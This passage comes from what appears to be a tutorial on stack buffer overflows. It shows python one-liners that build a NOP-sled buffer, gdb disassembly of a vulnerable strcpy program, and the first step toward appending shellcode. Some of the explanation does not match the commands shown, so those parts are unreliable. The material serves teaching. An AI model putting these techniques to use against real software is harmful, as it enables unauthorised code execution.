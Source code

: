 This command simply prints the character A 20 times.

Any character, such as nonprintable characters, can also be printed by using \x##, where ## is the hexadecimal value of the character. In the following example, this notation is used to print the character A, which has the hexadecimal value of 0x41.

```bash
$ python3 -c 'print("\x41"*20)'
$ AAAAAAAAAAAAAAAAAAAA
```

In each case, the output of the command found between the grave accents is substituted for the command, and the command of uname is executed.

```bash
$ python3 -c 'import os; os.system("uname -a")'
```

All the exploit code really does is get the stack pointer, craft a buffer, and feed that buffer to the vulnerable program. Armed with python, command substitution, and an approximate return address, the work of the exploit code can be done on the command line by simply executing the vulnerable program and using grave accents to substitute a crafted buffer into the first argument.

Next you can run the app in gdb and get the stack address you need to return to  
First set a breakpoint right after the strcpy

```css
(gdb) disassemble main
Dump of assembler code for function main:
   0x0000555555555139 <+0>:     push   %rbp
   0x000055555555513a <+1>:     mov    %rsp,%rbp
   0x000055555555513d <+4>:     sub    $0x210,%rsp
   0x0000555555555144 <+11>:    mov    %edi,-0x204(%rbp)
   0x000055555555514a <+17>:    mov    %rsi,-0x210(%rbp)
   0x0000555555555151 <+24>:    mov    -0x210(%rbp),%rax
   0x0000555555555158 <+31>:    add    $0x8,%rax
   0x000055555555515c <+35>:    mov    (%rax),%rdx
   0x000055555555515f <+38>:    lea    -0x200(%rbp),%rax
   0x0000555555555166 <+45>:    mov    %rdx,%rsi
   0x0000555555555169 <+48>:    mov    %rax,%rdi
   0x000055555555516c <+51>:    call   0x555555555030 <strcpy@plt>
   0x0000555555555171 <+56>:    mov    $0x0,%eax
   0x0000555555555176 <+61>:    leave
   0x0000555555555177 <+62>:    ret

(gdb) b *0x555555555030
Breakpoint 1 at 0x555555555030
(gdb) run   `python3 -c 'print("\x90"*200)'`
Breakpoint 1, 0x0000555555555030 in strcpy@plt ()
(gdb) info register

```

The shellcode should then be appended to the NOP sled. It’s quite useful to have the shellcode existing in a file somewhere, so putting the shellcode into a file should be the next step. Because all the bytes are already spelled out in hexadecimal in the beginning of the exploit, these bytes just need to be written to a file
